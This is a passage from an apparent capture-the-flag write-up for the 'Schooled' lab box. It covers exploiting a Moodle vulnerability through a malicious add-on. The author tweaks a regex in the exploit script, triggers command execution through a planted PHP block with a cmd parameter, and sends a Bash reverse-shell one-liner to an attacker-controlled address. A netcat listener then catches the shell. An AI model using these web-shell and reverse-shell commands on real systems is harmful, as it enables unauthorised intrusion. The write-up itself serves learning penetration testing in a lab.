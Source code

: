 ```python
user_id = re.findall(r'id=(\d)', r.text)[0]
```

Which I changed to:

```python
user_id = re.findall(r'id=(\d+)', r.text)[0]
```

The `+` in the regex will search for more than one digit in a row. Eventually, I got sick of trying to read and modify the code as it was... and decided to refactor it to bring it up to PEP8 code formatting standards. I am probably a little OCD about this, but it made it a lot easier to edit and made it easier to understand what was happening.

My refined version of the script is available with this repository at [exploits/cve202014321.py](exploits/cve202014321.py). It attempts to be a little more flexible with the searching, but will not auto-run any commands. You can just navigate to the URL it prints at the bottom to run any commands.

After getting the script to work, visited the URL of the uploaded addon.

```none
http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```

And we have code execution!!!

![80 Moodle RCE](screenshots/80_schooled_rce.png)

From here, I intercepted the request to this page in Burp, sent it to Repeater, and added the commonly seen Bash reverse shell payload.

```none
bash -c 'bash -i >& /dev/tcp/10.10.14.15/9001 0>&1'
```

I have a feeling that something on the target removes add-ons periodically, as my addon disappeared a couple of times before I could intercept it with Burp. After making sure to URL encode the payload, configured a netcat listener, and send the request.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.234] 15527
bash: cannot set terminal process group (2067): Can't assign requested address
bash: no job control in this shell
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ id
uid=80(www) gid=80(www) groups=80(www)
```

